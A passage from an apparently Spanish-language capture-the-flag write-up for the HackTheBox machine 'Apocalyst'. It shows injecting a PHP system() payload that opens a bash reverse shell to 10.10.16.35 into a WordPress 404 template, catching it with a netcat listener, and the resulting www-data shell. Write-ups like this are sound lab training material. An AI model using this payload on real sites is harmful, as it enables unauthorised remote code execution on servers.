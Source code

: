 Pulsamos en el template `Error 404`

![](/assets/img/Apocalyst/image_9.png)

Vamos a inyectar este paylod en el código php de la plantilla

```
system("bash -c 'bash -i >& /dev/tcp/10.10.16.35/9993 0>&1'");
```

![](/assets/img/Apocalyst/image_10.png)

Una vez hecho nos pulsamos en `Update File` en la parte inferior de la web y nos ponemos en escucha mediante netcat por el puerto 9993

```
# nc -nlvp 9993
```

Debemos provocar un error en la web, para ello podemos acceder a `http://apocalyst.htb/?p=0`, al no existir ese artículo se produce un error y nos manda la shell

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.156.119] 35388
bash: cannot set terminal process group (1587): Inappropriate ioctl for device
bash: no job control in this shell
www-data@apocalyst:/var/www/html/apocalyst.htb$ whoami
whoami
www-data
```

A continuación vamos a realizar un tratamiento a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla` 
